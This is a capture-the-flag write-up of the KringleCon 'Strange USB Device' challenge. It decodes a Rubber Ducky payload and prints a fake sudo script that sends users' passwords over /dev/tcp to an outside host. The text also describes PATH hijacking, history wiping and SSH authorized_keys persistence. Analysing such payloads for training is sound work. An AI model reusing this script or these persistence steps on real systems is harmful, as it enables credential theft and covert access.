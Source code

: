 # Strange USB Device

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [ducky terminal](https://docker2021.kringlecon.com/?challenge=ducky&id=0b50ffba-320c-4ef4-bd54-9c68faf91628)<br/>
**Terminal hint**: [IPv6 Sandbox](../hints/h5.md)


## Objective

!!! question "Request"
    Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

??? quote "Morcel Nougat"
    Hello and welcome to the speaker _Un_Preparedness Room!<br/>
    I'm Morcel Nougat, elf extraordinaire.<br/>
    I've heard the talks at the other con across the way are a bit... *off*.<br/>
    I really don't think they have the right sense about what makes for a wonderful holiday season. But, anyway!<br/>
    Say, do you know anything about USB Rubber Duckies?<br/>
    I've been playing around with them a bit myself.<br/>
    Please see what you can do to help solve the Rubber Ducky Objective!<br/>
    Oh, and if you need help, I hear Jewel Loggins, on this floor outside this room, has some experience.


## Hints

??? hint "Ducky Script"
    [Ducky Script](https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language) is the language for the USB Rubber Ducky.

??? hint "Ducky RE with Mallard"
    It's also possible the reverse engineer encoded Ducky Script using [Mallard](https://github.com/dagonis/Mallard).

??? hint "Mitre ATT&CK and Ducky"
    The [MITRE ATT&CK tactic T1098.004](https://attack.mitre.org/techniques/T1098/004/) describes SSH persistence techniques through authorized keys files.

??? hint "Duck Encoder"
    Attackers can encode Ducky Script using a [duck encoder](https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload) for delivery as `inject.bin`.


## Solution

??? abstract "Welcome message"
    ```
    A random USB device, oh what could be the matter?
    It seems a troll has left this, right on a silver platter.
    Oh my friend I need your ken, this does not smell of attar.
    Help solve this challenge quick quick, I shall offer no more natter.

    Evaluate the USB data in /mnt/USBDEVICE.
    ```

Follow the instructions in the welcome message and list the contents of the `/mnt/USBDEVICE` to find an encoded `inject.bin` Ducky Script file. We can decode the script using [Mallard](https://github.com/dagonis/Mallard) which is availabe in our home folder as `mallard.py`.

![Reconnaissance](../img/objectives/o5/recon.png)

Running `python mallard.py --file /mnt/USBDEVICE/inject.bin` prints out the original [Ducky Script commands](../artifacts/objectives/o5/ducky_script.txt).

![Run Mallard](../img/objectives/o5/mallard_exec.png)

The script creates a `~/.config/sudo` folder containing a malicious `sudo` script. When executed, the script requests a password (lines 3-4) and uses the value as input for the legitimate `sudo` tool to verify the password is correct (line 6). Regardless if the password is valid or not the data is then sent to `trollfun.jackfrosttower.com` on TCP port 1337 (lines 9 and 13). If the password is incorrect, the script is run again (lines 10-11). If the password is correct it's passed to the legitimate `sudo` tool (line 14).

!!! example "~/.config/sudo/sudo"
    **Note**: the malicious `sudo` script appears to contain a few errors, starting with the [shebang](https://en.wikipedia.org/wiki/Shebang_(Unix)) line which includes a redundant output redirect statement. The script also starts by executing the legitimate `/usr/bin/sudo` command on line 2, followed by a `read` statement which will result in the user being asked for their password twice. Finally, there's a redundant `fi` statement on line 16 which will cause the script to fail.

    ```bash linenums="1"
    #!/bin/bash > ~/.config/sudo/sudo
    /usr/bin/sudo $@
    echo -n "[sudo] password for $USER: "
    read -s pwd
    echo
    echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
    if [ $? -eq 1 ]
    then
    echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "Sorry, try again."
    sudo $@
    else
    echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
    echo "$pwd" | /usr/bin/sudo -S $@
    fi
    fi
    ```

Next, the `~/.config/sudo/sudo` script is made executable and the `$PATH` environment variable in both `~/.bash_profile` and `~/.bashrc` is updated to ensure that the `~/.config/sudo/` path takes precedence over any other configured paths. The last part of the Ducky Script reverses a string, Base64 decodes it, executes the decoded instructions via `bash`, and erases any shell history evidence by running `history -c` and deleting the `.bash_history` file.

![Reverse and Base64 decode](../img/objectives/o5/base64_decode.png)

 Manually reversing and Base64 decoding the string yields an `echo` statement which copies the SSH key for user `ickymcgoop@trollfun.jackfrosttower.com` into the `~/.ssh/authorized_keys` file, enabling easy SSH access to the host.

!!! done "Answer"
    ickymcgoop
